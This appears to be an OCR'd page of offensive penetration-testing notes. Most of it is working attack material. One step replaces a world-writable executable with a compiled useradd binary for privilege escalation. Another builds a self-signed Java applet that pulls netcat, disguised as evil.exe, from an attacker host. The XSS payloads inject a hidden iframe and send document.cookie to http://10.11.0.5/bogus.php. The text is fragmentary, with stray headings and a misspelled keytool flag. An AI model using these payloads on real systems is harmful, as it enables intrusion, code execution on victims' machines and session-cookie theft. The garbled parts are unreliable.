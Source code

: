 ```bash
i686-w64-mingw32-gcc -o <exe_file_with_everyone_permission>.exe useradd.c
```

Replace file with everyone permissions with useradd code.



**check permissions for database credentials**

 # Client Attacks

## By Java Applet

```bash
javac Java.java
echo “Permissions: all-permissions” > /root/manifest.txt
jar cvf Java.jar Java.class
keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -orepass password123
jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass -signedjar  SignedJava.jar Java.jar signapplet
cp Java.class SignedJava.jar /var/www/html/
```

```bash
echo '<applet width="1" height="1" id="Java Secure" code="Java.class" 
archive="SignedJava.jar"><param name="1" 
value="http://10.11.0.5:80/evil.exe"></applet>' > /var/www/html/java.html
```

```bash
cp /usr/share/windows-binaries/nc.exe /var/www/html/evil.exe
```

## Browser Extensions

* Cookie Manager
* Tamper Data

## Web Attacks

* XSS

  * try to inject javascript in form elements

    * try to inject iframe and surf attacker site:

      * ```html
        <iframe SRC="http://10.11.0.5/report" height = "0" width ="0"></iframe>
        ```

  * stealing cookies/session tokens

    * ```html
      <script>
      new Image().src="http://10.11.0.5/bogus.php?output="+document.cookie;</script>
      ```
